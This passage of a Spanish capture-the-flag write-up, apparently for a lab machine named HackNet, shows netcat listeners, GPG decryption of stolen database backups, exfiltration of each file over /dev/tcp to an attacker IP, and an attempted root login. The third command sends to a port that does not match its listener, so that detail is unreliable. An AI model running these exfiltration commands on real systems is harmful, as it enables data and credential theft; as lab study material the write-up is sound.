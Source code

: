 * prmiero vamos abrir 3 listener en nuestra maquina para recibir cada archivo desencriptado

```bash
nc -lnvp 5555 > back1.txt
```
```bash
nc -lnvp 5556 > back2.txt
```
```bash
nc -lnvp 5557 > back3.txt
```

* vamos importar la key, desencriptamos y enviamos a nuestra maquina

```bash
gpg --import private-keys-v1.d/armored_key.asc # importamos la key
```

```bash
gpg -o /tmp/back1.txt -d /var/www/HackNet/backups/backup01.sql.gpg && cat /tmp/back1.txt > /dev/tcp/10.10.14.216/5555 && rm -rf /tmp/back1.txt # desencriptamos y enviamos el primer backup
```
```bash
gpg --import private-keys-v1.d/armored_key.asc # importamos la key de nuevo
```
```bash
gpg -o /tmp/back2.txt -d /var/www/HackNet/backups/backup02.sql.gpg && cat /tmp/back2.txt > /dev/tcp/10.10.14.216/5556 && rm -rf /tmp/back2.txt # desencriptamos y enviamos el segundo backup
```
```bash
gpg --import private-keys-v1.d/armored_key.asc # importamos la key
```
```bash
gpg -o /tmp/back3.txt -d /var/www/HackNet/backups/backup03.sql.gpg && cat /tmp/back3.txt > /dev/tcp/10.10.14.216/5556 && rm -rf /tmp/back3.txt # desencriptamos y enviamos el tercer backup
```

>>> Nota: cada vez que desencriptemos nos pedira una password, esa password es la que obtuvimos al crackear el archivo `armored_key.asc`

* ya tenemos los 3 archivos en nuestra maquina


<img width="1276" height="337" alt="image" src="https://github.com/user-attachments/assets/bbcb637a-219b-4b4f-aacf-478d9ceab116" />

* ahora vamos a realizar filtrados para ver si obtenemos credenciales

<img width="1600" height="322" alt="image (3)" src="https://github.com/user-attachments/assets/fc4f41cb-8abd-4776-8c05-680bf1e4fa08" />

intentamos escalar a root

```bash
su root
```
<img width="1268" height="220" alt="image" src="https://github.com/user-attachments/assets/c271247f-ddf1-45d1-ad91-38ee9aa6d0ec" />


### User Root
